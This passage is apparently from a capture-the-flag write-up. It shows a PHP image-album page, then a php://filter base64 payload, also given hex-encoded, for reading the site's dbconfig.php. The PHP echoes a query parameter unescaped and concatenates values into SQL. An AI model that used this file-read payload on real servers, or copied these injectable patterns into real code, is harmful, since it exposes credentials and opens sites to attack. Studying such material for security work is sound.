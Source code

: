 ```bash
    $result_album->execute();
     
    $r=$result_album->fetch();
    $id=$r['id'];
    
     
    // Fetch image IDs from the database
    $sql_ids = "SELECT * FROM images where album_id=" . $id;
    $stmt_path= $conn->prepare($sql_ids);
    $stmt_path->execute();
    
    // Display the album id
    echo "<!-- Short tag: " . $_GET['short_tag'] . " - Album ID: " . $id . "-->\n";
    // Display images in a grid
    echo '<div class="grid-container">' . "\n";
    foreach ($stmt_path as $row) {
        // Get the image ID
        $path = $row["path"];
        $hash = hash_hmac('sha256', $path, $SECRET_KEY);

        // Create link to image.php with image ID
        echo '<div class="image-container">' . "\n";
        echo '<a href="/image.php?hash='. $hash . '&path=' . $path . '">';
        echo '<img src="/image.php?hash='. $hash . '&path=' . $path . '" alt="Image path: ' . $path . '">';
        echo "</a>\n";
        echo "</div>\n";;
    }
    echo "</div>\n";
} catch(PDOException $e) {
    echo "Connection failed: " . $e->getMessage();
}

// Close the connection
$conn = null;

?>
</body>
</html>
```

<br>

<h3>dbconfig.php</h3>

```bash
php://filter/convert.base64-encode/resource=dbconfig.php
```

<img width="1347" height="234" alt="image" src="https://github.com/user-attachments/assets/0be0c83a-6656-4eb1-b9fd-442c67486133" />


```bash
7068703a2f2f66696c7465722f636f6e766572742e6261736536342d656e636f64652f7265736f757263653d6462636f6e6669672e706870
```
